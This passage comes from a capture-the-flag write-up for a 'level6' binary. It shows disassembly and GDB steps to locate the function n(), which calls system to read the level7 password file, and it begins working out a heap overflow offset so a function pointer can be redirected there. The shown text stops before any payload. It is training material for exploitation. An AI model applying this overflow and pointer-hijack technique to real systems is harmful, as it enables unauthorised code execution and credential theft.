 Epilogue:

```asm
0x08048466 <+18>:    leave
0x08048467 <+19>:    ret
```

<+18>: Restore state.  
<+19>: Return.  

This is our target: `n()` executes system with the correct command to read the level7 password.

# GDB Runtime Analysis

This section documents the dynamic analysis of the level6 binary using GDB. The goal is to understand the binary's runtime behavior, inspect memory and register states, and demonstrate the exploitation steps entirely through GDB.

## Step 1: Identify Functions and Entry Points

We start by listing all defined functions:

```gdb
(gdb) info functions
0x08048454  n
0x08048468  m
0x0804847c  main
```

Function `main()` is the program entry, `m()` prints "Nope", and `n()` executes `system("/bin/cat /home/user/level7/.pass")`. We aim to redirect execution to `n()`.

---

## Step 2: Confirm Address of n()

We retrieve the address of `n()` to use it as our jump target:

```gdb
(gdb) p n
$1 = {<text variable, no debug info>} 0x08048454 <n>
```

This is the address that we want to overwrite into the function pointer.

---

## Step 3: Determine Overflow Offset Using Stack Arithmetic

We set a breakpoint after both `malloc()` calls have returned:

```gdb
(gdb) break *0x080484a5
(gdb) run AAAAA
```
